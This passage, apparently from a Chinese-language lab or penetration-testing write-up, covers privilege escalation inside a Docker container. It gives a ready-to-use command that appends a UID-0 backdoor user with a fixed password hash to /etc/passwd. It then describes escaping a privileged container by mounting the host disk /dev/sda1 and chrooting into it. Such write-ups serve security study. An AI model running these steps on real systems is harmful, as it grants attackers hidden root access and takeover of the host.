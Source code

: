 ```
zf1yolo:$1$zf1yolo$oULk89mtehUjxLPH9cRSn1:0:0:root:/root:/bin/bash
```

```bash
echo 'zf1yolo:$1$zf1yolo$oULk89mtehUjxLPH9cRSn1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

su 到刚添加的 zf1yolo 用户：

<img src=".\图片\Snipaste_2023-05-20_20-07-06.png" alt="Snipaste_2023-05-20_20-07-06" style="zoom:80%;" />

#### 挂载目录逃逸

现在还是处于容器内，所以还要进行提权到宿主上。在docker如果启动的时候 `--privileged=true` 是可以逃逸的。 

挂载宿主硬盘到 test 目录：

```
创建目录
mkdir /test
将宿主的目录挂载到test目录
mount /dev/sda1 /test
改变根目录为 /test
chroot /test
接下来就相当于逃逸了出来，可以操作一切真实目录里的内容，况且当前还是root权限
```
